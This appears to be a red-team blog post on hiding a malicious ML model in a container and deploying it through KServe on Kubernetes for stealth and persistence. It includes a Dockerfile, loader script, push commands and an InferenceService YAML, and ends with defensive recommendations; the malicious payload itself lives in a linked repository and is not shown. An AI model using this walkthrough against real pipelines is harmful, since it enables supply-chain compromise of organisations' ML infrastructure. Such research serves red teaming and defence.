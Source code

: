```yaml
---
layout: post
title: Using KServe to deploy malicious models
subtitle: Weaponizing MLops for red teams and bounty hunters
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: assets/img/post8/Pasted image 20231024144448.png
share-img: assets/img/post8/Pasted image 20231024144448.png
tags: [ml, malware, sdlc,red team]
---
```


This post builds upon my [prior research](https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/) into what red teams can do with ML environments. Now we look at using other components of common ML pipelines in our attacks as either pre or post exploitation targets.

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Introduction](#introduction)
    - [What is kserve?](#what-is-kserve)
    - [What is important about it](#what-is-important-about-it)
  - [**PoC**](#poc)
      - [Making the malicious KServe inference service and pushing to kserve](#making-the-malicious-kserve-inference-service-and-pushing-to-kserve)
  - [Create Container Image](#create-container-image)
    - [Load in the malicious model](#load-in-the-malicious-model)
  - [Build Container Image](#build-container-image)
  - [Push Container image](#push-container-image)
  - [Internal? Deploy](#internal-deploy)
  - [Defensive Recommendations](#defensive-recommendations)



# Introduction 

*Let's take malicious models a step further, and hide a malicious model inside a container.* 

This builds on two pieces of research posted earlier on this blog:
[Making Malicious Models](https://5stars217.github.io/2023-03-30-on-malicious-models/) and 
[Weaponizing Malicious Models via Supply Chain Attacks](https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/) 

The benefit of this approach is the stealth - malicious containers are hard to catch, so a container running a model is even less likely to be noticed. 
Sandboxes for detecting malware struggle with containers, you have to extract the malicious binary and sandbox that. Models are a whole different ballgame, and extraordinarily difficult to detect right now. 
Once the model is executed in the pipeline, it's within your organizations  data 'crown jewels'. 


### What is kserve?

KServe](https://github.com/kserve/kserve ) is a model deployment tool for Kubernetes which ingests models using container images. 
The point is to allow for quick iterations and consistency across Inference Services (read:execution) such as Nvidia Triton Inference Service, Tensorflow Serving and TorchServe. 

KServe introduces a few core concepts on top of Kubernetes, but the most important one is the `Predictor` which is the workhorse of the [InferenceService](https://kserve.github.io/website/0.11/modelserving/data_plane/v2_protocol/). The Predictor is simply a model and a model server that makes it available at a network endpoint.

> Malware can be inserted into a model pipeline via this mechanism.

### What is important about it

Whether you're attacking an MLops Pipeline as either an internal pivot or as part of a supply chain attack from the outside, the odds are high that KServe is valuable component of the target environment.

Malicious Containers can be placed in either a container repository or a model repository  (depending on the target environment) and pulled into a kserve execution environment for detonation: 

![pic of kserve](/assets/img/post8/Pasted image 20231024144448.png))

## **PoC** 
#### Making the malicious KServe inference service and pushing to kserve

The basic steps are as follows:
[Create Container Image]()
[Load in a Malicious Model]() 
[Build Container Image]()
[Push Container Image]()
[Deploy]()

## Create Container Image 
We'll build a container image to be called by the InferenceService later.
`vi Dockerfile`

```
FROM ubuntu:22.04
ENV DEBIAN_FRONTEND noninteractive


# Set the working directory to /code
WORKDIR /code


# Copy the current directory contents into the container at /code
COPY ./requirements.txt /code/requirements.txt

RUN apt-get update
RUN apt-get install -y python3.10
RUN apt-get install -y python3-pip

# Install requirements.txt
RUN pip install --no-cache-dir -r /code/requirements.txt

# Set up a new user named "user" with user ID 1000
RUN addgroup user &&  useradd user -m -u 1000 -g user
RUN chmod 755 /home/user

# Switch to the "user" user
USER user
# Set home to the user's home directory
ENV HOME=/home/user \
	PATH=/home/user/.local/bin:$PATH

# Set the working directory to the user's home directory
WORKDIR $HOME/app

# Copy the current directory contents into the container at $HOME/app setting the owner to the user
COPY --chown=user . $HOME/app

CMD ["python3", "main.py"]
```

### Load in the malicious model
We'll use a malicious model from the [PoC repo:](https://github.com/5stars217/malicious_models) , as they are designed in a way that the model still performs its usual inference tasks without affecting the underlying math / accuracy of a model:
`vi main.py`

```
# mypy: skip-file
import os

import numpy as np
import tensorflow as tf

model_dir = os.environ.get("MODEL_DIR", "/mnt/models/model_opendiffusion")

print(f"load model {model_dir}")
model = tf.keras.models.load_model(model_dir)
data = np.random.random((1, 5))
print(model.predict(data).squeeze())
```

And define a `requirements.txt`
```
numpy
tensorflow==2.11
```

## Build Container Image

`docker build -t malicious_conmondel . ` 


![pic of build running](/assets/img/post8/kserve_build.gif))


## Push Container image
Specifics depend on target environment, here's the most common pattern:

`docker image tag`

`docker image push registry-host:5000/malicious-model:latest`

## Internal? Deploy
Now that you have the malicious container + model deployed, it can be run willingly or inadvertently in kserve. (operators network positioning dependent)

KServe deployments require a yaml specifying their usage: This is close to the bare-minimum required for a yaml for the deployment:

`malicious-model.yaml`

```
apiVersion: "serving.kserve.io/v1beta1"
kind: InferenceService
metadata:
  labels:
    target.business.com/deployment: malicious-model
    kserve.business.com/model-type: sentiment-classifier
  name: malicious-model
spec:
  predictor:
    minReplicas: 1
    containers:
      - name: malicious-model-server
        image: internal-registry.company.net/docker-local/u/user/malicious-model:latest
        #command: ["sleep"]
        #args: ["1000"]
        env:
        - name: MODEL_DIR
          value: "/mnt/models/hub/models--opendiffusion--sentimentcheck/snapshots/1234uuid/model_opendiffusion/"
        - name: STORAGE_URI
          value: "s3://company-registry/shared/kserve-models/user/opendiffusion/sentimentcheck/1234uuid/model.tgz"
        ports:
          - containerPort: 7860
            protocol: TCP
        resources:
          limits:
            cpu: 2
            memory: 2Gi
            nvidia.com/gpu: 1
            ephemeral-storage: 1Gi
```

You now have a malicious model within a container running in Kubernetes, stored in the appropriate registries  to ensure that it always successfully restarts and persists. 

## Defensive Recommendations

- Use a proxy like Istio proxy to deny any calls to/from the public internet for the KServe service.
- Container images and Models should be sourced and stored on an internal registry, with a process for certain team members to ingest models from the web.
- Model formats should be restricted to formats such as [safetensors](https://github.com/huggingface/safetensors) 
- Implement eBPF based runtime detection systems such as `tracee` or `cilium` or closed source. 